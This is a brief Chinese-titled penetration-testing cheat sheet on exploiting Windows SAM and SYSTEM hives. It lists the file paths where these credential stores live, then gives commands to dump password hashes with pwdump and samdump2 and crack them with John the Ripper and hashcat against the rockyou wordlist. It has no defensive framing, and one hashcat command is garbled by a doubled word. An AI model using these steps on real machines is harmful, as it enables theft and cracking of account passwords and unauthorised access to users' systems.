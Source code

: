 # SAM 和SYSTEM 文件位置-及其利用

```bash
C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM
C:\Windows\repair\system
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\system
```

pwdump SYSTEM SAM > /root/hash.txt

samdump2 SYSTEM SAM -o sam.txt 

```bash
john -format=NT /root/hash.txt  
```

```bash
hashcathashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```